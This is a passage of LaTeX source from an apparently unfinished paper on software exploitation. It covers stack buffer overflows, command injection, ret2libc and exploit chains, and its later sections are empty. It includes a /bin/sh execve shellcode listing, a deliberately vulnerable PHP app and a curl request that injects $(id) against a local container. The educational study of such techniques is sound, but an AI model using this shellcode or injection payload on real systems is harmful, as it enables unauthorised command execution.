  % \draw [decorate,decoration={brace,amplitude=10pt}]
  %     (stack-1-2.north east) -- (stack-3-2.south east)
  %     node[midway,xshift=1.5cm,] {Group 1};

  \end{tikzpicture}
  \caption{\label{fig:label} State of the stack before executing \emph{gets} in the function \emph{say\_hi}}%
  \label{fig:stackframe}
\end{figure}

\begin{lstlisting}[caption={Shellcode disassembly}
      ,label={lst:bof}
      ,language={[x86masm]Assembler}]
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
\end{lstlisting}

\subsubsection{Command injection}
Command injection vulnerabilities represent a pervasive class of security issues
that impact both web and system programming environments. These vulnerabilities
occur when an application passes unsafe user-supplied data (forms, cookies, HTTP
headers, etc.) to a system shell, allowing the attacker to execute arbitrary
commands on the host operating system. In the context of web applications, these
flaws are primarily found in scripts that fail to properly sanitize user input,
making them susceptible to cross-site scripting (XSS) and SQL injection attacks.
However, command injection vulnerabilities are not confined to web programming;
they are equally prevalent in systems programming. Poorly designed system
applications and scripts that accept untrusted input for command execution can
expose the system to similar attacks. This vulnerability, thus, underlines the
importance of careful data handling and proper input validation, irrespective of
the programming environment.

We will be walking through the following\ref{veziphpbapula} vulnerable PHP app.
The application lacks proper input validation and allows an attacker to execute
arbitrary commands. The use of the \emph{system} function will cause the
following process to execute \texttt{sh -c ``echo Hello
<username>''}\footnote{There are situations where we are not able to inject
parameters into a command that will be directly reflected in the page. In these
situations we can try to end the intended command by using a \emph{;} character
and then write our own malicious command after.}. Our\ref{poggeroni} malicious
request sets the \emph{username} parameter to \verb|$(id)|. Because
the original command executes in a shell environment, the shell will interpret
this string by forking itself and executing the string in between the braces and
replacing the original string with the result of the command. We can imagine that
we can cause havoc on the vulnerable machine by being able to execute any command
we want.

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Command Injection example}
      ,label={lst:bof}
      ,language=PHP]
<?php
    $username = $_GET['username'];
    system("echo Hello " . $username);
?>
\end{lstlisting}
\end{minipage}

\begin{lstlisting}[caption={Command Injection example}
      ,label={lst:bof}
      ,language=bash]
$ docker run -d -p 8080:80 command_injection_php
d58498277e1194cc46dac4009f8fca1c84ce02bea21008075ad53f77bd63202f
$ curl http://127.0.0.1:8080/hello\?username\=$\(id\)
Hello uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}
Command injection vulnerabilities can drastically undermine security measures.
They enable attackers to bypass reverse proxies, offering unauthorized access to
protected internal services. Moreover, such vulnerabilities can assist in
creating botnets by allowing threat actors to inject commands to download and
install malicious software, leading to potential large-scale cyber threats such
as Distributed Denial of Service (DDoS) attacks.

The situation is similar in the systems programming space. The example for how a vulnerable program might look is left as an exercise to the reader.
\subsection{Evolution}
\begin{comment} ret2libc

  Mention the lack of mitigation
  Rise of heap based exploits due to browsers and JS
  Research some linux&windows kernel exploits
\end{comment}
As mitigation strategies have advanced in both hardware and software to
counteract software exploitation, so too have the techniques used by threat
actors, resulting in a continual escalation of sophistication. In response to
hardening mechanisms such as stack canaries and NX bits, novel exploitation
techniques have been developed to circumvent these defenses. Prominent among
these are Return Oriented Programming (ROP) and heap corruption exploits. ROP is
a technique that leverages existing code fragments, known as "gadgets", in the
binary to perform arbitrary computations, effectively sidestepping the
constraints enforced by the NX bit. Heap corruption exploits, on the other hand,
involve manipulating the metadata of memory management structures to induce
undefined behavior, providing the means to execute arbitrary code or escalate
privileges. This evolutionary process underscores the dynamic nature of the
cybersecurity landscape and the perpetual challenge of maintaining software
security in the face of evolving threats.

\subsubsection{ret2libc}
\emph{ret2libc} or \emph{Return to LibC} is a countermove against the
NX bit mitigation, which marks certain areas of memory as non-executable,
thereby prohibiting the execution of injected code. The essence of ret2libc lies
in its ingenious manipulation of the control flow of the program to call
existing code, typically functions residing in standard libraries (hence
'libc'), rather than introducing new code to be executed. By returning into
standard, broadly-used functions like 'system()' or 'exec()', an attacker can
execute arbitrary commands in the context of the vulnerable program, effectively
bypassing the NX bit defense. Ret2libc exemplifies the continually evolving
landscape of software exploitation techniques that repurposes legitimate elements
of the program to nefarious ends, circumventing protective mechanisms and
illustrating the challenges of
developing robust and enduring defenses against software vulnerabilities.

The entry mechanism behind this technique is the same as in the code injection
case. We overwrite the return address of the program with an address we control,
but this time instead of providing our own shellcode we use existing code mapped
inside the address space of the vulnerable process (usually from within the
binary itself or LibC\footnote{LibC is mapped in almost all processes running on
a system}).

For example we could overwrite the return address of a function with the address
of the \emph{system} function. When actually implementing this kind of attack
we face 2 difficult problems:
\begin{enumerate}
  \item At what address is the function we want to call located
  \item How can we control the parameters that we pass to the function.
\end{enumerate}

We will assume that we already identified an exploitable buffer overflow and a
way to leak an known arbitrary address from within LibC. Now we want to call
the \emph{system} function with the `sh' string to grant us a foothold on the
machine. Here\ref{memes} is an example of how the virtual memory space looks
when executing a binary. The \emph{system} function is located in the text
section\footnote{Briefly explain sections} of LibC. If LibC is compiled with PIC
and ASLR is enabled on the target system, sections will be placed offset
relative to a randomly selected base address. Using the information disclosure
vulnerability to leak an address\footnote{Libc meme} we can compute the base
address of the library and from there be able to get addresses for any byte
in the library.

Let's say that we managed to leak the address of the \emph{printf} function and
have the LibC binary that is running on the system. We can get the base address at
which the library is mapped using this formula.
\begin{equation}
  libc\_{base} = printf\_leak - offset\_{of}\_{printf}\_{in}\_{libc}
\end{equation}

Now that we have the first issue fixed, how do we pass parameters to the functions
we want to call? Because the NX (No-Execute) bit

\begin{figure}[ht]%
  \centering
  
\begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=5em, text
    centered, minimum height=2em, text width=5cm,
               text depth=0.25cm,
               text height=1em,
               align=center]
    \tikzstyle{line} = [draw, -latex']

    % Define matrix
    \matrix [matrix of nodes,
      nodes=block,
      column sep=0cm,
      row sep=0cm
    ] (stack) {
      {\verb|<unmapped space>|}\\
      |[fill=red!20]|
      {binary.rodata} \\
      {binary.text} \\
      {binary.bss} \\
      {\verb|<unmapped space>|} \\
      |[fill=red!20]|
      {libc.rodata} \\
      {libc.text} \\
      {libc.bss} \\
      {\verb|<unmapped space>|} \\
      |[fill=red!20]|
      {ld.rodata} \\
      {ld.text} \\
      {ld.bss} \\
      {\verb|<unmapped space>|}\\
    };

    \draw [blue,thick,->] ([xshift=-3cm]stack-1-1.north west) --
    ([xshift=0cm]stack-1-1.north west) node[midway, below, black] {0x00000000};

    \draw [blue,thick,->] ([xshift=-3cm]stack-13-1.south west) --
    ([xshift=0cm]stack-13-1.south west) node[midway, below, black] {0xFFFFFFFF};

  \end{tikzpicture}
  \caption{\label{fig:label} Virtual memory map}%
  \label{fig:stackframe}
\end{figure}


\subsection{Exploit chains}
At this point in time the mitigation strategies employed by hardware and
software designers have limited the impact we have when executing a single
exploit. This has given the rise to \emph{exploit chains}. In this scenario
multiple vulnerabilities or oversights are exploited in order to gain more and
more information about the system. Here\ref{memes} is how an attacker would
approach the task of exploiting a system.

\begin{minipage}{\textwidth}
  \centering
  
\begin{tikzpicture}[
    node distance = 2.5cm,
    auto,
    decision/.style={diamond, draw, fill=blue!20, text width=4.5em, text badly centered, node distance=3cm, inner sep=0pt, minimum width=5},
    block/.style={rectangle, draw, fill=blue!20, text width=5em, text centered, rounded corners, minimum height=4em},
    line/.style={draw, -Latex, rounded corners=5mm}
    ]

    \node [block] (entrypoint) {Entrypoint};
    \node [block, below of=entrypoint] (information) {Gain more information about the system};
    \node [decision, below of=information] (decision) {Enough info?};
    \node [block, below of=decision] (rce) {Goal};

    \path [line] (entrypoint) -- (information);
    \path [line] (information) -- (decision);
    \path [line] (decision) -- node {yes} (rce);
    \path [line] (decision) -- ++(-2,0) -- ++(0,2) node [midway, above, sloped,
    rotate=270, above=0.3cm] {no} -- (information);
  \end{tikzpicture}
\end{minipage}

\subsection{Browser exploits}


\begin{comment}
Cool decision tree
\end{comment}

\subsection{State of the art}
\begin{comment}
  Rise of the hypervizor exploits (showcase some virtualbox exploits, maybe
  vmware hyperv) RCE Exploits mostly slowing down Common techniques no longer
  being effective (check offbyonesec talk about windows kernel exploitation, talk
  about)
\end{comment}


\section{Detection techniques}%


\section{Mitigation Techniques}%


\section{Case studies}%


\section{Future trends}%


\section{Conclusion}%


\section{References}%


\end{document}
